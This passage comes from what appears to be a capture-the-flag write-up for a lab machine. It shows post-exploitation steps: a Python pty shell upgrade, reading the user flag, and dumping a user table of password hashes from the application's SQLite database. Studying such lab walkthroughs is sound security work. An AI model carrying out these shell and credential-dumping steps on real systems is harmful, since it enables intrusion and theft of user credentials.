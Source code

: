 Next, a more appropriate shell is spawned using Python's `pty` module.

```bash
app-production@code:~/app$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```

---

## User Flag

Having a strong foothold on our target's system, currently logged in as a low-privileged user `app-production`, we try searching the system directories.

The `user.txt` flag can be found under `/home/app-production`

```bash
app-production@code:~/app$ cd ../
cd ../
app-production@code:~$ ls
ls
app
user.txt
```

After capturing the user flag, searching for other useful files on the system, we navigate to our previous directory where the application is hosted.

```bash
app-production@code:~$ cd app
cd app
app-production@code:~/app$ ls 
ls
app.py
instance
__pycache__
static
templates
app-production@code:~/app$ cd instance
cd instance
app-production@code:~/app/instance$ ls 
ls
database.db
```

Searching inside the application's directory and checking the first directory listed `instance`, we find immediately the local database file. Trying to read its contents using `sqlite3`, we find user credentials.

```bash
app-production@code:~/app/instance$ sqlite3 database.db
sqlite3 database.db
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
.tables
code  user
sqlite> select * from user;
select * from user;
1|development|759b74ce43947f5f4c91aeddc3e5bad3
2|martin|3de6f30c4a09c27fc71932bfc68474be
```

